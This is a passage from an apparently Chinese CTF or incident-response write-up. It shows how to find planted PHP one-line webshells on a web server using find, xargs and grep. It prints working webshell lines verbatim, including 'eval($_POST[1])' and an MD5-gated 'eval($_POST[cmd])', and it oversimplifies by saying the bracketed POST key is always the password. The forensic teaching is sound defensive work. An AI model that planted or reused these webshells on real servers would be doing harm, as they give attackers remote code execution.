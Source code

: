  * ​`find`​：这是一个用于搜索文件和目录的命令。
  * ​`./`​：表示当前目录及其子目录。
  * ​`-type f`​：表示只搜索文件（不包括目录）。
  * ​`-name "*.php"`​：表示只搜索扩展名为 `.php`​ 的文件。
* ​ **​`|`​** ​

  * 管道符，将前一个命令的输出作为下一个命令的输入。
* ​**​`xargs grep "eval("`​** ​

  * ​`xargs`​：将标准输入的数据转换为命令行参数。它会将 `find`​ 命令的输出传递给 `grep`​。
  * ​`grep "eval("`​：搜索包含字符串 `eval(`​ 的行。

​![在这里插入图片描述](assets/net-img-51f358d5fc9d4c2b8a2ee87a0d44d065-20240628211442-8rsnnur.png)​

	./var/www/html/.shell.php:<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>  
	./var/www/html/index.php:$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';  
	./var/www/html/1.php:<?php eval($_POST[1]);?>

跟着查出的目录过去一个一个进行查看；

	cat 1.php

​![在这里插入图片描述](assets/net-img-7ab41e8a28c94b2caef5e59f8f1bec6b-20240628211442-8jyxl8h.png)​

	<?php eval($_POST[1]);?>root@ip-10-0-10-3:/var/www/html#

可以看出查出三个后缀为.php的文件，题目要求我们把木马的密码提交，就这三个文件很明显嘛，不是pass就是1咯，因为这是《一句话木马》的特征；

**什么是《一句话木马》？**

一句话木马是一种极为简短且隐蔽的恶意代码，通常嵌入到网站的 PHP 文件中，用于远程执行任意代码或命令。这种木马之所以被称为“一句话木马”，是因为它们通常只包含一行代码，但功能强大且危险。

 **《一句话木马》特征**

1. **简短**：通常只有一行代码，易于隐藏和注入。
2. **使用** **​`eval`​**​ **函数**：利用 `eval`​ 函数执行传入的 PHP 代码。
3. **通过 HTTP 参数传递代码**：常见的方式是通过 GET 或 POST 请求参数传递要执行的代码。
4. **基础验证**：一些一句话木马会有简单的验证机制，比如检查一个参数的值是否符合某个条件。

**那为什么可以确认POST[xxx]括号里面的就是密码呢？**

很简单，这是固定的，[]里面的内容自古以来就是密码！

	flag{1}

#### 步骤#1.2

##### 服务器疑似存在不死马，请找到不死马的密码提交
